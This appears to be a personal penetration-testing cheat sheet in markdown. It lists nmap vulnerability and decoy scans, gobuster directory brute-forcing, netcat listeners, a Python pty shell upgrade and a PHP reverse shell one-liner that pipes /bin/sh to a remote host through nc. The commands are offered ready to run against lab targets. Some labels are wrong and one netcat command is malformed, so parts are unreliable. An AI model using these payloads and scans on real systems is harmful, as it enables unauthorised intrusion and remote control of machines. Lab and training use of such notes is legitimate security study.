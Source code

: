 # Useful Codes
---
## nMap
---
- Vulnerability Script Nmap SE
```bash
sudo nmap 10.129.15.75 -p 80 -sV --script vuln
```
- Decoy IP Nmap
```bash
sudo nmap 10.129.2.28 -p 80 -sS -Pn -n --disable-arp-ping --packet-trace -D RND:5
```

---
## Gobuster
---
- Gobuster Dir

```bash
gobuster dir -u http://$IP --wordlist $Wordlist
```
---
## Hydra
---



---
## Netcat
---
- Listening for incoming RevShells
```sh
nc -lvnp port
```
- Listen for incoming calls
```sh
nc -nc ip port
```

---
## Python
---
- Python Server
```python
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

---
## Revshells
---
- PHP Reverse Shell
```php
<?php system ("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc $IP $PORT >/tmp/f"); ?>
```

---
## XML Prettyfy
---
```bash
xsltproc all.xml -o all.html (nmap xml to html)
```